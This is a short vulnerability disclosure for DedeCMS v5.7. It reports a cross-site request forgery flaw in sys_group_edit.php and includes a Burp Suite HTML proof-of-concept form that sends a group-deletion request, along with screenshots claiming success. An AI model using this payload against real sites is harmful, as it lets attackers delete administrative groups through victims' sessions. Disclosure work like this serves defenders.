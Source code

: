 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/sys_group_edit.php
![1](https://github.com/Hckwzh/cms/assets/128144400/690392c9-3adf-4705-9e25-7999c16f878d)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/sys_group_edit.php">
      <input type="hidden" name="dopost" value="del" />
      <input type="hidden" name="rank" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
![2](https://github.com/Hckwzh/cms/assets/128144400/02a2533e-4a0d-49ee-8ccf-e2e367ff2964)



successed

![3](https://github.com/Hckwzh/cms/assets/128144400/b939cdaa-aa4e-4a9a-9875-c53174467d0d)
